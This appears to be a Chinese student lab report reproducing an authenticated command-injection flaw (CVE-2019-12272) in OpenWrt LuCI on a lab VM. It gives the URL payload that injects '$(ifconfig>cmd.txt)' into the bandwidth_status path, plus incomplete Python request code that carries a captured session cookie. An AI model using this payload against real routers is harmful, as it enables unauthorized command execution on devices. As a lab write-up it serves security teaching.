 # 漏洞复现

## 实验内容
- 漏洞复现及利用
- 编写自动化漏洞利用代码

## 实验环境
- openwrt-15.05.1
- win10

## 实验过程
### 环境搭建
- 配置网络接口



- 修改openwrt的IP地址``` vi etc/config/network ```

![](img/修改IP.png)

- 有关Luci包的安装

![](img/USB标识信息.png)

![](img/驱动安装.png)



### 漏洞的复现
- 1.管理员账号登录luci
- 2.在``` stok=…… ```后添加``` /admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt) ```即可触发漏洞

- 3.访问``` http://192.168.56.12/cmd.txt ```获取结果

- 4.通过漏洞，获取id命令

![](img/result2.png)

### 漏洞的利用
- 1.利用``` Copy as cURL (bash) ```

  


- 代码
```
import requests
cookies =
{
           'sysauth': '050af866c8c8d270e1131305a3a72d14',
}

headers = 
{
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36      (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
    'Accept': '*/*',
    'Referer': 'http://192.168.56.12/cgi-         bin/luci/;stok=c3d8f76b80fad73eea72c35204c0f4c2',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}


```

- 获取curl

- 第三方网站得到python代码
```
import requests

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://192.168.56.12/',
    'Accept-Language': 'zh-CN,zh;q=0.9',
}

response = requests.get('http://192.168.56.12/cgi-bin/luci', headers=headers, verify=False)
```

## 参考资料
* 1. - [课堂录屏](https://c4pr1c3.github.io/cuc-mis/chap0x04/cve-2019-12272.html)

